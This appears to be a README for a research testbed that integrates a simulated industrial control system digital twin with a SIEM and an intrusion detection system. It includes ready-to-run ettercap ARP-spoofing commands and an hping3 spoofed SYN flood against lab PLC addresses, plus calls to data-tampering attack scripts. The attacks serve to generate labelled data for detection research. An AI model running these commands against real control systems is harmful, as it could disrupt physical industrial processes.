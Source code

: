 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose is as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
4. The script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and ids in browser.
    Kibana port 5601 , ids (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node)
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

Collected dataset is stored as 'data.csv' in logs folder.

Label the dataset using 'label.py' script.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (False data injection): Run the following script to launch this attack for x minutes.

    ```
    python attack_fdi.py <x>
    ```

**Attack scenario 2, 3, 4** (MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1


**Attack scenario 6,7,8** (MitM/Data tampering): Run the following commands for attacks 6, 7, 8 respectively.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH

**Attack scenario 9,10,11 (MitM/Scaling positive) and Attack scenario 12,13,14 (MitM/Scaling negative)

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -

**Attack scenario 15,16,17 (MitM/Data tampering)

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH
    ```

**Attack scenario 18,19,20 (MitM/Scaling positive) and Attack scenario 21,22,23 (MitM/Scaling negative)

python attack_randomp.py PLC2
python attack_randomp.py PLC3
python attack_randomp.py BOTH
python attack_randomn.py PLC2
python attack_randomn.py PLC3
python attack_randomn.py BOTH

**Running ML-based IDS**

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
